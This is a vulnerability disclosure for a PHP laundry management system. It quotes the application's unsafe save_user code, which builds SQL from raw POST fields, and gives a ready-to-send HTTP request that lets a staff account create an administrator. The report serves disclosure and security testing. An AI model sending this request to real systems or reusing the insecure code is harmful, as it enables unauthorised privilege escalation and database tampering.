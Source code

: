 ## Online Laundry Management System

## IDOR on `/ajax.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
staff
staff
```

### Affected Page:

```
/ajax.php?action=save_user
```

A vulnerability(IDOR) was discovered in the page (`ajax.php` `admin_class.php`). An attacker might be able to perform horizontal or vertical privilege escalation by altering the user to one with additional privileges while bypassing access controls.

```php
# ajax.php
4   include 'admin_class.php';
27  if($action == 'save_user'){
28 	$save = $crud->save_user();
29 	if($save)
30 		echo $save;
31  }
```

```php
# admin_class.php
function save_user(){
	extract($_POST);
	$data = " name = '$name' ";
	$data .= ", username = '$username' ";
	$data .= ", password = '$password' ";
	$data .= ", type = '$type' ";
	if(empty($id)){
		$save = $this->db->query("INSERT INTO users set ".$data);
	}else{
		$save = $this->db->query("UPDATE users set ".$data." where id = ".$id);
	}
	if($save){
		return 1;
	}
}
```

### Proof of Concept:

1. Log in to the platform using employee accounts.
2. Send a request to create an administrator account through the interface.
3. Log in to the administrator account.

**Burp Request:**

```
POST /ajax.php?action=save_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 64
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Cookie: PHPSESSID=odflank1n9b26vhfh1heeu1u4j

id=&name=adminadmin&username=adminadmin&password=admin123&type=1
```

**Screenshot:**

![image-20240512141502050](./screenshot/image-20240512141502050.png)

After sending burp request:

![image-20240512141615353](./screenshot/image-20240512141615353.png)

